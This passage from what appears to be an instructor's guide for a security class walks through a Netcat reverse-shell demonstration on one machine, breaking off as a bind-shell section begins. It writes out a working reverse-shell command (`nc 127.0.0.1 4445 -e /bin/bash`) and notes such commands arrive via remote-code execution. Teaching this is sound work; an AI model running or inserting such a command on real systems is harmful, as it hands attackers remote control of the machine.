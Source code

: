    - This will act as the attacker's host, which is now listening for a connection from a remote machine.
   - Point out that the flags used are: `l` (listen), `v` (verbose), `p` (port).
 
3. Open another terminal window (not tab) and position it next to the current terminal window where `nc` is listening, as the following image shows: 

    ![A screenshot depicts the two terminals side by side.](images/netcat2.png)

    This new window will act as the victim/target machine.

4. In the new window, connect to port 4445 on the attacker's host window by typing `nc 127.0.0.1 4445 -e /bin/bash`, as the following image shows:

	 ![A screenshot depicts the command in the terminal window.](images/netcat3.png)
	
5. From the attacker's window, we now have a reverse shell opened on the target host, and we can now execute commands to it remotely. 

6. Run `whoami` in the attacker's window, and show students the result. 

    - This type of attack requires the host to run the connection string command (`nc 127.0.0.1 4445 -e /bin/bash`), which is often done through some type of **remote-code execution (RCE)** exploit.

    - Use ctrl+C to stop the Netcat connection, and `clear` the windows.

**Bind Shells**

Now, you will demonstrate a bind shell.
